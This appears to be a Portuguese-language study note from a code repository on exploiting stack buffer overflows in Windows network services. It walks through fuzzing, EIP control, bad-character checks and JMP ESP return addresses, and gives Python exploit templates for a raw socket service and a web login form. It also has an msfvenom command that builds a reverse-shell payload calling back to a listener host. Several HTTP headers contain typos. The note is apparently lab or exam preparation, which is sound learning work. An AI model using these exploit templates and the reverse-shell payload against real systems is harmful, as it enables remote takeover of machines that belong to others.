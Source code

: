 
# Conceito
O buffer overflow acontece quando é inserido uma quantidade grande de dados, que sobrescrevem o buffer, o EBP (base da Stack), o endereço de retorno, e o EIP, que indica o endereço da próxima instrução. Então pode-se tentar ganhar o controle do EIP, testar bad chars para assim encontrar um bom endereço de retorno, gerar um shellcode e ganhar acesso remoto através da shell

# Passos
## Coleta de Informações
- Identificar o software
- Entender como funciona a comunicação

## Fuzzing
- Enviar diversos tipos de dados afim de testar o comportamento do software

## Identificar a vulnerabilidade
- Atingir o EIP enviando dados até o programa sofrer de buffer overflow
- Controlar o EIP

## Identificar BadChars
- Identificar caracteres inválidos para não enviar na hora de enviar a shell

## Identificar Endereço de Retorno
- Identificar um ótimo local para o EIP enviar o shellcode
- Achar algum endereço que tenha um JMP ESP, visto que é um endereço fixo
- Procurar nas DLLs um comando JPM ESP

## Gerar o shellcode
- Fazer o exploit final e enviar para a aplicação para testar se funciona
- msfvenom -p windows/shell_reverse_tcp lhost=172.16.1.2 lport=443 exitfunc=thread -b "badchars" -f c

---
# Exemplos

## Fuzzing de dados

```python
#!/usr/bin/python
import socket

dados = "A" * 2007 + "BBBB" + "C" * 500 # Testar quantos dados precisam

lista = ["A"]
contador = 100

while len(lista) <= 3: # Calcula de 100 em 100
	lista.append("A" * contador) 
	contador = contador + 100 

for dados in lista:
	print "Fuzzing com SEND %s bytes" %len(dados)

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.0.5",5800))
banner = s.recv(1024)
print banner
s.send("SEND " + dados + "\r\n")
```
---
## Lista de caracteres para BadChars

```python
#!/usr/bin/python

for num in range(0,256):
	print ((hex(num).replace('0x','\\x')),

```
---
## Verificação de BadChars

```python
#!/usr/bin/python
import socket

bad = "all bad chars" #Quando um char não é permitido, ele não aparece na pilha

dados = "A" * 2007 + "BBBB" + bad # Utilizar quando já tiver o número de dados

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.0.5",5800))
banner = s.recv(1024)
print banner
s.send("SEND " + dados + "\r\n")
```
---
## Fluxo de execução

```python
#!/usr/bin/python
import socket

#0x625012a0 - Endereço fictício

dados = "A" * 2007 + "\xa0\x12\x50\x62" + "\x90" * 32 + "C" * (500 - 32)
#'A's até EIP + Endereço JPM ESP + NOP + Shell

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.0.5",5800))
s.send("SEND " + dados + "\r\n")
```
---
## Exploit Final
```python
#!/usr/bin/python
import socket

shellcode = ("shellcode")

#0x625012a0 - Endereço fictício

exploit = "A" * 2007 + "\xa0\x12\x50\x62" + "\x90" * 32 + shellcode
#'A's até EIP + Endereço JPM ESP + NOP + Shell

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.0.5",5800))
s.send("SEND " + exploit + "\r\n")
```
---
## Exploit Web

```python
#!/usr/bin/python
import socket

# badchars = \x00\x0a\x0d\x25\x26\x2b\x3d
badchar = ("badchars")

# endereço de retorno = 0x10090c83

shellcode = ("shellcode")

dados = "A" * 780 + "\x83\x0c\x09\x10" + "\x90" * 16 + shellcode
tam = len(dados) + 20

request="POST /login HTTP/1.1\r\n"
request+="Host: 192.168.0.5\r\n"
request+="User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0 Firefox/68.0\r\n)"
request+="Accept: text/html, application/xhtml+xml,application/xml;q=0.9\r\n"
request+="Accept-Language: en-US,en;q=0.5\r\n"
request+="Accept-Encoding: gzip, deflatre\r\n"
request+="Referer: http://192.168.0.5/login\r\n"
request+="Content-Type: applcation/x-www-form-urlencoded\r\n"
request+="Content-Lenght: " + str(tam) + "\r\n"
request+="DNT: 1\r\n"
request+="Connection: close\r\n"
request+="Upgrade-Insecure-Requests: 1\r\n"
request+="\r\n"
request+="username=" + dados + "&password=A"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.0.5",80))
s.send(request)
```